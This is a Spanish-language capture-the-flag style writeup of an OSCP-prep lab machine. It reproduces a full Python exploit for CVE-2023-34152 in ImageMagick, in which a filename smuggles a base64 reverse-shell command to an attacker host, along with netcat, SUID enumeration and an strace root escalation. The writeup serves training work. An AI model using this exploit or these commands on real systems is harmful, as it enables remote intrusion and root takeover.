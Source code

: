 ```yaml
---
layout: single
title: PG Practice (OSCP Prep.) - Image Writeup
excerpt: "Seguimos alimentando nuestro conocimiento para el OSCP. En esta ocasión, trabajaremos sobre una máquina en la que tendremos que explotar una vulnerabilidad en una versión de ImageMagick que se ejecuta por detrás a través de una web que permite la subida de archivos. Posteriormente, escalaremos privilegios abusando de un binario con permisos SUID en Linux."
date: 2025-04-09
classes: wide
header:
  teaser: /assets/images/pg-writeup-image/pg_writeup_image.webp
  teaser_home_page: true
  icon: /assets/images/hacked.webp
categories:
  - Proving Grounds Practice
  - OSCP
tags:
  - ImageMagick Exploit
  - Pentesting
  - Abusing SUID - Privilege Escalation
---
```


Empecemos con la máquina. 

<p align="center">
<img src="/assets/images/pg-writeup-image/start_car.gif">
</p>

# Enumeración 

```bash
nmap -p- -sS -sCV --min-rate 5000 --open -v -n -Pn 192.168.125.178 -oN allports
```

# Puertos:

```bash
Nmap scan report for 192.168.125.178
Host is up (0.041s latency).
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: ImageMagick Identifier
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
```

Al tener solo dos puertos, voy directo al más interesante: el puerto 80, que además ya veía en el escaneo de Nmap que estaba corriendo ImageMagick.

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314003442.png">
</p>


<span style="color:red;">ImageMagick</span> es una suite de software libre usada para crear, editar, convertir o manipular imágenes

Veo algo muy interesante: **la versión**

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314003914.png">
</p>

# Intrusión - CVE-2023-34152 - ImageMagick

Buscando algo sobre ImageMagick, la versión seguida de la palabra 'exploit' en Google ya me encuentro con algo muy interesante en GitHub.

[CVE-2023-34152](https://github.com/SudoIndividual/CVE-2023-34152)

```python
import base64
import sys
import os
help_message = "Usage: {0} Attacker_IP Attacker_Port".format(sys.argv[0])
if len(sys.argv) != 3:
	print(help_message)
	exit()
LHOST = sys.argv[1]
LPORT = sys.argv[2]
image = b'iVBORw0KGgoAAAANSUhEUgAAAQAAAAABCAAAAAAUMi+rAAAADnRFWHRqdXN0IGZvciB0ZXN0IZvUs4kAAAEMSURBVHicAQEB/v4AAAECAwQFBgcICQoLDA0ODxAREhMUFRYXGBkaGxwdHh8gISIjJCUmJygpKissLS4vMDEyMzQ1Njc4OTo7PD0+P0BBQkNERUZHSElKS0xNTk9QUVJTVFVWV1hZWltcXV5fYGFiY2RlZmdoaWprbG1ub3BxcnN0dXZ3eHl6e3x9fn+AgYKDhIWGh4iJiouMjY6PkJGSk5SVlpeYmZqbnJ2en6ChoqOkpaanqKmqq6ytrq+wsbKztLW2t7i5uru8vb6/wMHCw8TFxsfIycrLzM3Oz9DR0tPU1dbX2Nna29zd3t/g4eLj5OXm5+jp6uvs7e7v8PHy8/T19vf4+fr7/P3+/633f4E21T+hAAAAAElFTkSuQmCC'

def exploit(attacker_IP,attacker_port):
	reverse_shell = ('/bin/bash -c "/bin/bash -i >& /dev/tcp/{0}/{1} 0>&1"'.format(attacker_IP,attacker_port)).encode('ascii')
	payload = (base64.b64encode(reverse_shell)).decode("ascii")
	filename = '|smile"`echo {0}|base64 -d|bash`".png'.format(payload)
	with open(filename, "wb") as fh:
		fh.write(base64.decodebytes(image))
exploit(LHOST,LPORT)
print('Created by SudoIndividual (https://github.com/SudoIndividual)')
print('PNG file (payload) have been created in current directory. Upload the payload to the server')
nc_shell = input('Do you want to run netcat shell? [y/N]')
if nc_shell.lower() == 'y':
	os.system('nc -lvnp {0}'.format(LPORT))
else:
	exit()
```

El script genera un archivo malicioso que escapa del contexto de ImageMagick para inyectar un comando en el sistema, en este caso, una reverse shell.

**POC:**

Ejecutamos el exploit:

```bash
python3 CVE-2023-34152.py <TU-IP> <TU-PUERTO>
```

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004035.png">
</p>


Subimos el archivo con extenso nombre: 

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004052.png">
</p>

Y estamos dentro como **www-data**

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250409181002.png">
</p>

# Escalada de privilegios 

Una de las formas más comunes de escalar privilegios en Linux es mirar si algún binario tiene la flag o el privilegio <span style="color:red">SUID</span>. Esto quiere decir que ese binario se puede ejecutar como el propietario, siempre que tenga el flag <span style="color:red;">SUID</span> en la parte de los permisos. Si hiciéramos `ls -l`, veríamos en la primera parte, en vez de `rwx`, `-rws`

Los buscaremos con el comando `find`.

```bash
find / -perm -4000 2>/dev/null
```

Y ya veo algo que me llama la atención: el binario `/usr/bin/strace`

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004435.png">
</p>

Strace puede ser interesante y no es común de encontrar.

La mejor página que engloba todas las debilidades de permisos relacionadas con binarios en Linux es, sin duda, [GTFOBins](https://gtfobins.github.io).

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250314004548.png">
</p>

Probemos ejecutar esto para adjuntarnos a la SH como `root`.

```bash
www-data@image:/var/www$ /usr/bin/strace -o /dev/null /bin/sh -p
```

Y ya somos `root` 😎

<p align="center">
<img src="/assets/images/pg-writeup-image/Pasted image 20250409182529.png">
</p>



**Explicación final**: El comando `strace -o /dev/null /bin/sh -p` se utiliza para adjuntar un proceso ya en ejecución con strace, en lugar de iniciar uno nuevo, por tanto como el binario tiene el privilegio <span style="color:red;">SUID</span> y el propietario es `root`, estariamos ejecutando la `sh` como el usuario `root`

Máquina completada 😎

<p align="center">
<img src="/assets/images/leonardo-dicaprio-clapping.gif">
</p>

Gracias por leer.
